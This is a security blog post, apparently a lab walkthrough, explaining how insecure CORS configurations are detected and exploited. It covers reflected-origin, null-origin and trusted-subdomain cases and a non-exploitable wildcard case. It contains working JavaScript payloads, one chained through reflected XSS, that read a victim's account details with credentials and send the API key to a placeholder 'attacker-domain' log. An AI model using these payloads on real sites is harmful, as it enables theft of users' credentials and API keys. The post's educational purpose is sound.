 ```yaml
---
layout: post
title:  "Insecure CORS Configuration"
date:   2023-09-25 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - CORS
image1:
  - /insecure-cors-configuration/img1.PNG
image2:
  - /insecure-cors-configuration/img2.PNG
image3:
  - /insecure-cors-configuration/img3.PNG
image4:
  - /insecure-cors-configuration/img4.PNG
image5:
  - /insecure-cors-configuration/img5.PNG
image6:
  - /insecure-cors-configuration/img6.PNG
image7:
  - /insecure-cors-configuration/img7.PNG
image8:
  - /insecure-cors-configuration/img8.PNG
image9:
  - /insecure-cors-configuration/img9.PNG
---
```


Helloo readers!

Some of you might be wondering what CORS is? 🤔

CORS or Cross-Origin Resource Sharing is a security feature implemented by web browsers that controls how web pages in one domain can request and interact with resources (such as data, images, or APIs) hosted on another domain. This security feature is designed to prevent malicious websites from making unauthorized requests to a different domain on behalf of a user.

An insecure CORS configurations may pose significant security risks, including 

1. Data Theft (such as API keys and user credentials).
2. Cross-Site Scripting (XSS) attacks.
3. Remote Code Execution.

Properly configuring CORS policies and server settings is crucial to mitigate these risks and protect web applications and user data.


In this blog, I will demonstrate on how to detect and exploit insecure CORS configurations.

### Reflected Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to the domain supplied by the attacker.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image1 }}" alt="Reflected Origin">
<figcaption>Fig 1. Reflected Origin</figcaption>
</figure>

To exploit this vulnerability, the attacker must first place the JS script on an external server, making it accessible to the target user. Afterward, they need to craft an HTML page, incorporate the JS script within it, and then deliver this page to the user.

<figure>
<img src="{{ page.image2 }}" alt="Exploit Server">
<figcaption>Fig 2. Exploit Server</figcaption>
</figure>


```javascript
<script>
  # Initialize req and url variable
  var req = new XMLHttpRequest();
  var url = ('URL');

  # Set an event handler for when the request is completed
  req.onload = reqListener;
  # Configure the request
  req.open('GET', url + '/accountDetails',true);
  # Enable sending credentials with the request
  req.withCredentials = true;
  req.send();
  # Define the reqListener function
  function reqListener() {
    location='attacker-domain/log?key='+this.responseText;
  };
</script>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image3 }}" alt="Result">
<figcaption>Fig 3. Result</figcaption>
</figure>

`alWO6sJJnOlhJYwKVmdMMYhiq6xTLuQ1`

### NULL Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to null.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image4 }}" alt="NULL">
<figcaption>Fig 4. NULL origin</figcaption>
</figure>

To take advantage of the Null Origin vulnerability, we'll employ an iframe with a sandbox attribute to fetch the API key. 
By utilizing the sandbox property, we establish the frame's origin as null, enabling us to configure the Origin header with a null value.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    var url = ('URL');

    req.onload = reqListener;
    req.open('GET', url + '/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='attacker-domain/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image5 }}" alt="Result">
<figcaption>Fig 5. Result</figcaption>
</figure>

`noF0gu7NCbYRFg6Cq8lkVbwqLR3574rA`

### Trusted Subdomains

The application becomes susceptible when:

1. Server configures `Access-Control-Allow-Origin` header as trusted subdomains.
2. `Access-Control-Allow-Credentials` set as true.

**This exploitation case is dependent on whether the trusted subdomains have any misconfigurations like Cross-Site Scripting.**

<figure>
<img src="{{ page.image6 }}" alt="NULL">
<figcaption>Fig 6. Trusted Subdomains</figcaption>
</figure>

After finding a CORS misconfiguration, it is time to find for exploitable attack vectors.

In this scenario, we found a reflected XSS vulnerability on the 'Check Stock' feature owned by stock trusted subdomain.

<figure>
<img src="{{ page.image7 }}" alt="NULL">
<figcaption>Fig 7. XSS Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image8 }}" alt="NULL">
<figcaption>Fig 8. XSS</figcaption>
</figure>

Craft a one-liner JavaScript to exfiltrate the apiKey.

```javascript
<script>
    document.location="http://stock.VULN.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULN.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker-domain/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
````

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image9 }}" alt="NULL">
<figcaption>Fig 9. Result</figcaption>
</figure>

`Ldrh2myx9LailPFS4i2zzkxw6chGED6F`


### Unexploitable Case: Wild Card

The application is NOT vulnerable when the Access-Control-Allow-Origin is set to wildcard * , even if the Access-Control-Allow-Credentials header is set to true.

This is because there is a safety check in place that disables the Allow-Credentials header when the origin is set to a wildcard.

So that’s it guys, hoped that my blog could help you better understand CORS.

See you on my next blog post!
